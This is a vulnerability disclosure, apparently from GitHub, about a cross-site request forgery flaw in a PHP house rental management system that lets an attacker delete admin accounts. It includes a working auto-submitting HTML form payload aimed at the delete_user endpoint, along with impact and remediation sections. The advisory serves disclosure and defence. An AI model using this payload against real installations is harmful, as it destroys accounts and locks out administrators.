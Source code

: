 
### **Best House Rental Management System Cross-Site Request Forgery (CSRF) Vulnerability**

- **Exploit Title**: Best House Rental Management System Project in PHP CSRF Vulnerability Enables Unauthorized Deletion of Admin Accounts  
- **Exploit Author**: Yasser Alshammari  
- **Vendor Homepage**: [SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)  
- **Software Link**: [Download Here](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)  
- **Version**: Best House Rental Management System Project in PHP v1.0  
- **Tested On**: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.12  
- **CVE**: Reported, waiting for CVE number  

---

### **Description**

The `/rental/ajax.php?action=delete_user` endpoint in the **Best House Rental Management System Project in PHP v1.0** is vulnerable to Cross-Site Request Forgery (CSRF). This vulnerability allows an attacker to delete admin accounts without authorization by tricking an authenticated user into submitting a crafted request. A malicious POST request to `/rental/ajax.php?action=delete_user` with the body `id=<Number>` deletes the specified admin user. This can lead to the unauthorized removal of all users in the database, severely impacting business operations.

---

### **CSRF Payload**

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit - Delete User</title>
</head>
<body>
    <h1>Deleting User...</h1>
    <form id="csrf-form" action="http://localhost/rental/ajax.php?action=delete_user" method="POST">
        <input type="hidden" name="id" value="4">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```
---

### **Proof of Concept**

Submit the above POST request to the `/rental/ajax.php?action=delete_user` endpoint, replacing `id=4` with the ID of any admin account to delete. Observe that the specified user account is deleted without requiring additional authorization, demonstrating the CSRF vulnerability.

---

### **Impact**

- An attacker can delete admin or user accounts by exploiting this vulnerability.
- This can result in:
  - Complete administrative lockout.
  - Loss of user management capabilities.
  - Severe disruption of operations.

---

### **Remediation**

- **Implement CSRF Protection**: Use CSRF tokens to validate the authenticity of requests.
- **Session Validation**: Ensure that user sessions are verified before processing sensitive operations.
- **Referrer Validation**: Enforce strict referrer validation to ensure requests originate from trusted sources.
